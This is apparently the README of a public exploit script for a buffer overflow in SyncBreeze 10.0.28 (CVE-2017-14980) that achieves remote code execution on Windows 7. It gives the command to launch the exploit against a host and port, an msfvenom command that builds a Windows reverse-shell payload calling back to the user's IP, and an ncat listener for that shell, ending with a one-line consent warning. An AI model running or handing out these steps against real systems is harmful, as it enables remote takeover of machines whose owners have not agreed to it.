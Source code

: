 # SyncBreeze 10.0.28 Buffer OverFlow for Remote Code Execution [CVE-2017-14980]
POST data buffer overflow, the CVE score is 7.5 but the impact is critical
## How it works?
That easy BoF, rewritten by me, will overwrite the buffer and execute the shellcode
## Vuln machines:
Windows 7 
## Launch:
````~$ python3 SyncBreeze.py <host> <port>````
## Change the ShellCode with your own!!
````~$ sudo ./msfvenom windows/shell_reverse_tcp LHOST=<your ip> LPORT=4444````
## Listen with netcat:
````~$ ncat -lvp 4444````
### Don't pwn any machine without consent!!
